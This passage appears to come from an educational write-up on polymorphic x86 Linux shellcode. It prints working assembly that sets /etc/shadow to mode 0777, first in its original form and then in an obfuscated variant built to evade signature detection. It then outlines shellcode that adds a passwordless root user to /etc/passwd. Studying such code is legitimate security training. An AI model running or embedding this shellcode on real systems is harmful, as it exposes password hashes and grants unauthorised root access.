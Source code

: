     _start: 
    mov ebx, eax
    xor eax, ebx
    push dword eax
    mov esi, 0x563a1f3e
    add esi, 0x21354523
    mov dword [esp-4], esi
    mov dword [esp-8], 0x68732f2f
    mov dword [esp-12], 0x6374652f
    sub esp, 12
    mov    ebx,esp
    push word  0x1ff
    pop    cx
    mov    al,0xf
    int    0x80


**Modified shellcode:**

    ; MODIFIED SHELLCODE
    ; Filename: chmodshadow-poly.nasm
    ; Author: Jeremy Catelain
    ; chmod 0777 /etc/shadow (a bit obfuscated) Shellcode - 51 Bytes

    section .text
    global _start

    _start: 
    mov ebx, eax
    xor eax, ebx
    push dword eax
    mov esi, 0x6374ef32 
    add esi, 0x13FA752F ;0x776F6461
    mov dword [esp-4], esi
    sub esi, 0xefc3532
    mov dword [esp-8], esi ; 0x68732f2f
    mov dword [esp-12], 0x6374652f
    sub esp, 12
    mov    ebx,esp
    push word  0x1ff
    pop    cx
    mov    al,0xf
    int    0x80


###  <span style="color:#2d8fb3;">  Part 3 - Add r00t user to /etc/passwd </span>

***link to the original shellcode: http://shell-storm.org/shellcode/files/shellcode-211.php***

The aim of this shellcode is to add a r00t user to the /etc/passwd file. 
To do so, the following steps are followed:
- open("/etc//passwd", O_WRONLY  O_APPEND)
- write(ebx, "r00t::0:0:::", 12)
- close(ebx)
- exit()

